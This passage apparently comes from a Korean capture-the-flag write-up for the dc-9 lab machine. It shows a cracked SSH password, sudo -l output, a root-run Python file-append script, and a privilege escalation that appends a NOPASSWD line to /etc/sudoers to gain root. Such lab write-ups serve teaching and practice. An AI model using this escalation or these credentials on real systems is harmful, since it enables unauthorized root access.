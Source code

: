 ```shell
[22][ssh] host: target   login: fredf   password: B4-Tru3-001
```
`fredf`유저에 대한 로그인 정보가 새롭게 cracking되었습니다.

```shell
sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```
- `fredf` 유저는 /opt/devstuff/dist/test/test를 superuser 권한으로 실행할 수 있었습니다.


```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```
- `/opt/devstuff/test.py`를 확인해보니 첫번째 argument로부터 파일을 읽어 두번째 argument 파일에 쓰는 프로그램이었습니다. 

```shell
echo 'fredf ALL=(root) NOPASSWD: ALL' > /tmp/a
sudo /opt/devstuff/dist/test/test /tmp/a /etc/sudoers
sudo su
```
- `/etc/sudoers`파일을 덮어써서 루트 권한을 획득합니다.
